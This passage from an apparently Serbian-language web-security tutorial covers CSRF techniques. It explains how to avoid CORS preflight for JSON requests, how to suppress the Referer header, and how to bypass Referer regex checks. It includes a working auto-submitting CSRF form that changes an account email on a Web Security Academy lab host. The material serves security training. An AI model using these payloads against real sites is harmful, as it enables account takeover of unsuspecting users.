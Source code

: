 ### Bypassing Preflight Requests for JSON Data

Kada pokušavate poslati JSON podatke putem POST zahteva, korišćenje `Content-Type: application/json` u HTML formi nije direktno moguće. Slično, korišćenje `XMLHttpRequest` za slanje ovog tipa sadržaja pokreće preflight zahtev. Ipak, postoje strategije za potencijalno zaobilaženje ove ograničenosti i proveru da li server obrađuje JSON podatke bez obzira na Content-Type:

1. **Koristite Alternativne Content Type-ove**: Koristite `Content-Type: text/plain` ili `Content-Type: application/x-www-form-urlencoded` postavljanjem `enctype="text/plain"` u formi. Ovaj pristup testira da li backend koristi podatke bez obzira na Content-Type.
2. **Izmenite Content Type**: Da biste izbegli preflight zahtev dok osiguravate da server prepoznaje sadržaj kao JSON, možete poslati podatke sa `Content-Type: text/plain; application/json`. Ovo ne pokreće preflight zahtev, ali ih server može pravilno obraditi ako je konfigurisan da prihvata `application/json`.
3. **Korišćenje SWF Flash Fajla**: Manje uobičajen, ali izvodljiv metod uključuje korišćenje SWF flash fajla za zaobilaženje ovakvih ograničenja. Za dublje razumevanje ove tehnike, pogledajte [ovaj post](https://anonymousyogi.medium.com/json-csrf-csrf-that-none-talks-about-c2bf9a480937).

### Zaobilaženje Provere Referrera / Origin-a

**Izbegavanje Referrer zaglavlja**

Aplikacije mogu validirati 'Referer' zaglavlje samo kada je prisutno. Da bi se sprečilo slanje ovog zaglavlja od strane pretraživača, može se koristiti sledeća HTML meta oznaka:

```xml
<meta name="referrer" content="never">
```

Ovo osigurava da se zaglavlje 'Referer' izostavi, potencijalno zaobilazeći provere validacije u nekim aplikacijama.

**Bypass-ovi regularnih izraza**

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

Da biste postavili ime domena servera u URL koji će Referrer poslati unutar parametara, možete uraditi sledeće:

```html
<html>
<!-- Referrer policy needed to send the qury parameter in the referrer -->
<head><meta name="referrer" content="unsafe-url"></head>
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="submit" value="Submit request" />
</form>
<script>
// You need to set this or the domain won't appear in the query of the referer header
history.pushState("", "", "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net")
document.forms[0].submit();
</script>
</body>
</html>
```

